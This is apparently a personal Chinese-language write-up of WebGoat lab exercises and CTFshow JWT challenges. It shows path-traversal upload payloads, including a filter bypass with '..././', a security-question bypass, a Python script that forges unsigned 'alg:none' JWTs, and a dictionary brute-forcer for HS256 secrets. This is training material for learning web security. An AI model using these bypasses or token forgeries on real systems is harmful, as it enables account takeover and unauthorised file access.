 # WebGoat

## Path traversal

### 2

<img src="图片\Snipaste_2023-01-18_14-31-19.png" alt="Snipaste_2023-01-18_14-31-19" style="zoom:67%;" />

上传一个正常图片时，路径显示 

```
/home/webgoat/.webgoat-8.1.0/PathTraversal/adminzfy/test
```

我们要上传到指定路径

```
/home/webgoat/.webgoat-8.1.0/PathTraversal/
```

在 test 前加上 ../ 即可

<img src="图片\Snipaste_2023-01-18_14-35-12.png" alt="Snipaste_2023-01-18_14-35-12" style="zoom:67%;" />

找到源码，未做任何过滤

### 3

先按照上题的方法试试，没有成功

<img src="图片\Snipaste_2023-01-18_14-44-54.png" alt="Snipaste_2023-01-18_14-44-54" style="zoom:67%;" />

找到源码看看，原来是**单次过滤**了 **../**，把其替换为了空

<img src="图片\Snipaste_2023-01-18_14-45-54.png" alt="Snipaste_2023-01-18_14-45-54" style="zoom:67%;" />

我们直接双写 ../ 变为 ..././ 试试

<img src="图片\Snipaste_2023-01-18_14-48-10.png" alt="Snipaste_2023-01-18_14-48-10" style="zoom:67%;" />

### 4

正常上传图片后显示，它是使用的**原图片的文件名**

<img src="图片\Snipaste_2023-01-18_14-52-49.png" alt="Snipaste_2023-01-18_14-52-49" style="zoom:67%;" />

<img src="图片\Snipaste_2023-01-18_14-54-54.png" alt="Snipaste_2023-01-18_14-54-54" style="zoom:67%;" />

我们直接修改上传图片的文件名，在前面加上 ../ 试试

<img src="图片\Snipaste_2023-01-18_14-58-19.png" alt="Snipaste_2023-01-18_14-58-19" style="zoom:67%;" />

### 5

<img src="图片\Snipaste_2023-01-18_15-12-05.png" alt="Snipaste_2023-01-18_15-12-05" style="zoom:80%;" />

如果用户输入的id.jpg存在，那么返回包中返回该图片的base64编码

如果不存在，就返回catPicturesDirectory的父目录的所有文件信息，用逗号分割

https://www.cnblogs.com/HAN91/p/14585449.html

<img src="图片\Snipaste_2023-01-18_15-13-14.png" alt="Snipaste_2023-01-18_15-13-14" style="zoom:67%;" />

## Authentication Bypasses

`调用verificationHelper.didUserLikelylCheat()`

`将用户输入的问题用键值对的方式保存，并和后端代码存储的答案进行比较。`

`但是Mapper在get一个不存在的键时，并不会报错，而是返回null。所以用户可以通过控制key的值绕过`

我们**修改 key 为不存在的值**，即可绕过

<img src="图片\Snipaste_2023-01-18_15-19-45.png" alt="Snipaste_2023-01-18_15-19-45" style="zoom:67%;" />

## JWT

https://www.cnblogs.com/yokan/p/14468030.html

生成规则如下：

- 第一段HEADER部分，固定包含算法和token类型，对此json进行base64url加密，这就是token的第一段。

```
{` `  ``"alg"``: ``"HS256"``,` `  ``"typ"``: ``"JWT"` `}
```

- 第二段PAYLOAD部分，包含一些数据，对此json进行base64url加密，这就是token的第二段。

```
{` `  ``"sub"``: ``"1234567890"``,` `  ``"name"``: ``"John Doe"``,` `  ``"iat"``: 1516239022` `   ``...` `}
```

- 第三段SIGNATURE部分，把前两段的base密文通过`.`拼接起来，然后对其进行`HS256`加密，再然后对`hs256`密文进行base64url加密，最终得到token的第三段。

```
base64url(``   ``HMACSHA256(``       ``base64UrlEncode(header) + ``"."` `+ base64UrlEncode(payload),``       ``your-256-bit-secret (秘钥加盐)``   ``)``)
```

最后将三段字符串通过 `.`拼接起来就生成了jwt的token

### 空加密算法

把signature设置为空（即不添加signature字段），提交到服务器，任何token都可以通过服务器的验证，即不需要密匙。前提是开发人员在生产环境中开启了空加密算法

python生成空加密jwt

```python
# -*- coding:utf-8 -*-
import jwt
import base64
def b64urlencode(data):
    return base64.b64encode(data).replace(b'+', b'-').replace(b'/', b'_').replace(b'=', b'')
print(b64urlencode(b'{"alg":"none"}')+b'.'+b64urlencode(b'{"iat":1674890907,"admin":"true","user":"Tom"}')+b'.')
```

```
eyJhbGciOiJub25lIn0.eyJpYXQiOjE2NzQ4OTA5MDcsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJUb20ifQ.
```

修改 cookie 中 JWT 为 admin 则成功

### 爆破密匙

已知

```
eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTY3NDAyNjU4NSwiZXhwIjoxNjc0MDI2NjQ1LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.kp8SVnSCJNXMm4vG22OlyEluvw2JzqlBJ-0ovMLSOJw
```

我们要 username changed to WebGoat

```python
import termcolor
import jwt
if __name__ == "__main__":
    jwt_str = 'eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTYxMTc5ODAxNSwiZXhwIjoxNjExNzk4MDc1LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.w1tzWDwmZcggbyV9ixcw1Vydf07MG9mAsPVbQPgBh2E'
    with open('pass.txt') as f:
        for line in f:
            key_ = line.strip()
            try:
                jwt.decode(jwt_str, verify=True, key=key_, algorithms="HS256")
                print('\r', '\bbingo! found key -->', termcolor.colored(key_, 'green'), '<--')
                break
            except (jwt.exceptions.ExpiredSignatureError, jwt.exceptions.InvalidAudienceError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.ImmatureSignatureError):
                print('\r', '\bbingo! found key -->', termcolor.colored(key_, 'green'), '<--')
                break
            except jwt.exceptions.InvalidSignatureError:
                print('\r', ' ' * 64, '\r\btry', key_, end='', flush=True)
                continue
        else:
            print('\r', '\bsorry! no key be found.')
```

爆破出来key，就可以去https://jwt.io/#debugger 加工啦

# CTF SHOW

## web345

把 cookie 中的值 base64 解码

```
auth=eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2NzQwMzAzNDYsImV4cCI6MTY3NDAzNzU0NiwibmJmIjoxNjc0MDMwMzQ2LCJzdWIiOiJ1c2VyIiwianRpIjoiOWNiMDBkYzc0NDA5ODMwNmRhNmVlNTQzNGI1MzAxOWYifV0
```

```
{"alg":"None","typ":"jwt"}[{"iss":"admin","iat":1674030346,"exp":1674037546,"nbf":1674030346,"sub":"user","jti":"9cb00dc744098306da6ee5434b53019f"}]
```

把 user 改为 admin 再 base64 编码，替换cookie 则看到 flag

```
{"alg":"None","typ":"jwt"}[{"iss":"admin","iat":1674030346,"exp":1674037546,"nbf":1674030346,"sub":"admin","jti":"9cb00dc744098306da6ee5434b53019f"}]
```

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0AW3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2NzQwMzAzNDYsImV4cCI6MTY3NDAzNzU0NiwibmJmIjoxNjc0MDMwMzQ2LCJzdWIiOiJhZG1pbiIsImp0aSI6IjljYjAwZGM3NDQwOTgzMDZkYTZlZTU0MzRiNTMwMTlmIn1d
```

<img src="图片\Snipaste_2023-01-18_16-36-26.png" alt="Snipaste_2023-01-18_16-36-26" style="zoom:80%;" />

## web346

猜测密匙为 123456 ，修改 user 为 admin

## web347

爆破

```
ubuntu@VM-4-8-ubuntu:~/c-jwt-cracker-master$ ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY3NDAzNDcxNywiZXhwIjoxNjc0MDQxOTE3LCJuYmYiOjE2NzQwMzQ3MTcsInN1YiI6InVzZXIiLCJqdGkiOiI4YmE5YTU1ODhjODM2ZGI3MzFiOWViZDc2NjRhOGExNSJ9.YD1U0kSu9OL2JOMPTG_eyCSy7ibYiJSWswObR2_VIHM

Secret is "aaab"
```

